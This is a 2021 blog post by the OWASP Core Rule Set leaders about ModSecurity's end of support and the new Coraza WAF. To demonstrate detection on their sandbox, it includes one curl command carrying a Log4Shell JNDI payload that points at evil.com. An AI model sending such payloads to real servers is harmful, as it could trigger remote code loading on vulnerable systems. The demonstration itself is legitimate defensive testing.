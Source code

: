 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-22T13:23:02+01:00'
title: Talking about ModSecurity and the new Coraza WAF
---
```



It's time to talk about the ModSecurity engine and to introduce you to Coraza, a new contender on the WAF front. Any rule set is nothing without a WAF engine to run it, so even if our project is focused on the rules, we need to look at the underlying engine(s) from time to time.

On August 26, 2021, Trustwave, the owner of ModSecurity, announced the end of Support for ModSecurity for 2024 in a [blog post](https://www.trustwave.com/en-us/resources/security-resources/software-updates/end-of-sale-and-trustwave-support-for-modsecurity-web-application-firewall/). The blog also states that Trustwave plans to “let the open-source community continue the project.”

During autumn, OWASP, our mother organization, reached out to Trustwave and offered to assume stewardship of the project and attract sponsors while honoring Trustwave’s existing commitments. Sadly, OWASP and Trustwave were not yet able to find a common path before the end of Trustwave’s end of life support in 2024. So Trustwave is winding down their commitment and we need to move on.

As the provider of the OWASP ModSecurity Core Rule Set, we are the biggest users of ModSecurity, but also one of the biggest experts on ModSecurity. Our CRS co-leader Dr. Christian Folini is the author of the 2nd edition of the quasi-official ModSecurity Handbook, and our project brings together a unique expertise of ModSecurity in very diverse setups. We have been examining the development of ModSecurity ever since it was taken over by Trustwave, we have seen lead developers join and leave the company, we have raised dozens of issues and we contributed with several pull requests.

Without going into too much detail, we think it is fair to say that ModSecurity failed to attract a community of active developers. CRS has grown from 3 to 12 active developers since it separated from Trustwave in 2016. Meanwhile, ModSecurity has not been able to keep up with the necessary resources to accommodate the growing CRS project and its users.

#### ModSecurity: a problem with two code bases

One problem is the ModSecurity code base. The traditional base is ModSecurity 2, a venerable Apache module, originally developed by Ivan Ristić. However ModSecurity 2 is heavily linked to Apache internals, which makes it hard to port it and makes it sensible to re-factor. There is the successor libModSecurity 3, a standalone engine built from scratch in C++ with a connector module to integrate it into NGINX. ModSecurity 3 was released as stable and production-ready in December 2017.

It's been four years, and CRS still uses ModSecurity 2 as its reference implementation. The main reason is ModSecurity 3 fails to pass all tests in our test suite. Trustwave dubbed ModSecurity 3 as a re-implementation with an equal feature set, which has not happened yet. Recently, we sent Trustwave a list a dozen implementation gaps and differences that break CRS rules and potentially open up an application to attacks.

But this is not the only problem. NGINX is also the only platform where a publicly available ModSecurity 3 connector module exists. So you can not run ModSecurity 3 on the traditional Apache and also not on the new hot cloud stuff. And the performance of ModSecurity 3 is much worse than the throughput of ModSecurity 2 on Apache (Yes, you heard this right: Once ModSecurity comes into play, Apache is way faster than NGINX).

So, we have a very old code base that is bound to Apache, and a newer codebase that is incomplete, less performant, and only runs on NGINX.

CRS has pondered the problem, but we came to the conclusion that we will rather use our knowledge and resources to write rules than working on an engine. That’s said, we will strive to become engine-neutral. (Which does not mean we are not supportive. The last few security problems in ModSecurity have all been discovered by CRS developers and shared with the ModSecurity developers before publication. And we have quite a few pull requests open on the ModSecurity GitHub on top.)

The only viable option for a ModSecurity fork would be a company or organization with deep pockets and the resources to clean up the codebases, closing the gaps and then maybe a vision of how to move forward. We expect about 4,000 hours of investment for both code bases.

So in our opinion, the situation looks rather bleak for ModSecurity and for those integrators who have invested in ModSecurity. We're facing a similar situation apparently. But we also think there is reason for hope. Let us explain!

First, ModSecurity’s SecLang engine is not overly important. There are already several commercial reimplementations of ModSecurity, and there is nothing preventing an open source alternative.

And second, the intelligence is in the rule set, not in the engine. Mike Shinn, CEO of Atomicorp, an old school vendor of ModSecurity rules, has put it this way recently: "The real magic of ModSecurity is always in the rules anyways." As an open source rules provider, we could not agree more.

So all we really need is an open source alternative to ModSecurity. And such a very interesting alternative has arrived now: Entering the [Coraza WAF](https://coraza.io).

#### The beauty of the new Coraza WAF

Coraza is an implementation of a SecLang engine in the memory-safe Go language, all developed by Juan Pablo Tosso from Chile. Coraza is currently only working on the open source [Caddy web server](https://caddyserver.com/), but Coraza already passes 100% of the CRS test suite and we are convinced it is production ready. Juan Pablo has picked up work on Apache and NGINX integration, and he wants to make it a drop-in replacement for ModSecurity. And then many, many more plans. The only obstacle to fill these with life is the lack of a developer community around Coraza. And we sincerely hope that the beauty of the project will inspire people to check it out and join!

{{< figure src="images/2021/12/coraza-logo.png" caption="The new Coraza WAF with its pet \"Sancho\" on the right." >}}
To give you an early access to Coraza, if you do not have a Caddy webserver to play around, we have set up a Caddy with Coraza on our CRS sandbox, and you can try it out immediately. In the following example, we will send a Log4J exploit to the sandbox. Note that with the “x-backend” header, we pick Coraza as an engine, and with “x-crs-version” we pick the Core Rule Set with the extra Log4J rule from our [earlier Log4J blog post](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).

```sh
curl -H "x-crs-paranoia-level: 4" \
  -H "x-format-output: txt-matched-rules" \
  -H "x-backend: coraza" \
  -H "x-crs-version: 3.4.0-dev-log4j" \
  -H ‘***User-Agent: ${jndi:ldap://evil.com}***’ \
  https://sandbox.coreruleset.org  
> 1005 PL1 Potential Remote Command Execution: Log4j CVE-2021-44228  
> 932130 PL1 Remote Command Execution: Unix Shell Expression Found  
> 949110 PL1 Inbound Anomaly Score Exceeded (Total Score: 10)  
> 980130 PL1 Inbound Anomaly Score Exceeded (Total Inbound Score: 10 - SQLI=0,XSS=0,RFI=0,LFI=0,RCE=10,PHPI=0,HTTP=0,SESS=0): individual paranoia level scores: 10, 0, 0, 0
```

#### **Conclusion**

We are not sailing away from the ModSecurity island just yet, but we are helping to build a new ship. While we see problems with the viability of the ModSecurity project, we will continue to test it and report issues with ModSecurity 3 productively in order to help improve its outlook. Meanwhile, we will work with the community on creating alternatives such as Coraza, so our users can use the Core Rule Set with any modern setups for many years to come. Our sandbox will be a useful asset to help us assess and compare various engines, to give our users as many options as possible.

If you are interested in looking at Coraza, here are some interesting links:

- <https://coraza.io>
- <https://coraza.io/docs/tutorials/introduction/>
- <https://github.com/jptosso/coraza-waf>

We will keep you updated on new developments in this regard.  
  
*Walter Hop and Christian Folini, leaders of the OWASP ModSecurity Core Rule Set project*  
  
P.S. Juan Pablo Tosso asked CRS to come up with a name for his Coraza mascot. We settled on Sancho and he thought it was a great fit.
